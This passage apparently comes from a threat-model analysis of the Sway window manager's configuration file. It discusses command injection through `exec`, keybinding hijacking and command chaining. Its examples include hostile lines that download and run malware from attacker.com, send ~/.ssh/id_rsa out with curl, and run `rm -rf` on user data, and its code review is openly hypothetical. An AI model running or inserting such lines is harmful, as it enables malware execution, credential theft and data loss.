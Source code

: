 ## 4. Deep Analysis of Attack Surface

### 4.1. Configuration File Parsing and Command Execution

Sway's configuration file is a plain text file, typically located at `~/.config/sway/config`.  It uses a custom syntax, which is relatively simple but allows for arbitrary command execution.  The core vulnerability lies in the `exec` command and the ability to bind commands to key presses.

**Code Review Findings (Illustrative - Requires Specific Code Analysis):**

*   **`config.c` (Hypothetical):**  Assume a file named `config.c` handles configuration loading.  We would look for functions like `load_config()`, `parse_line()`, `execute_command()`.
*   **`exec` command handling:**  The code likely uses a function like `system()` or `execve()` (or a wrapper around them) to execute commands specified with `exec`.  This is a *critical* area for security.  The lack of input sanitization or validation before passing the command string to these functions is a major vulnerability.
*   **Keybinding handling:**  Similar to `exec`, keybindings that trigger commands need careful scrutiny.  The code must ensure that the command string associated with a keybinding is not manipulated by an attacker.
*   **Startup commands:**  Commands executed on Sway startup are particularly dangerous, as they provide an easy way for an attacker to gain persistence.

**Specific Vulnerabilities and Attack Vectors:**

1.  **Arbitrary Command Injection:**  The most significant vulnerability.  If an attacker can modify the configuration file, they can add lines like:

    ```
    exec --no-startup-id wget http://attacker.com/malware -O /tmp/malware && chmod +x /tmp/malware && /tmp/malware
    ```

    This would download and execute malware.  The `--no-startup-id` flag is often used to prevent notification spam, but it also makes the attack less visible.

2.  **Keybinding Hijacking:**  An attacker could modify existing keybindings or add new ones to execute malicious commands:

    ```
    bindsym $mod+Shift+q exec pkill sway  # Original, legitimate binding
    bindsym $mod+Shift+q exec rm -rf /home/user/important_data # Malicious replacement
    ```
    Or,
    ```
    bindsym $mod+Control+x exec curl http://attacker.com/exfiltrate?data=$(cat ~/.ssh/id_rsa)
    ```
    This could be used to exfiltrate sensitive data.

3.  **Command Chaining and Escaping:**  The configuration file syntax might allow for command chaining (using `;` or `&&`) or escaping special characters, potentially leading to more complex attacks.  For example:

    ```
    exec --no-startup-id echo "harmless" ; wget http://attacker.com/malware -O /tmp/malware && chmod +x /tmp/malware && /tmp/malware
    ```
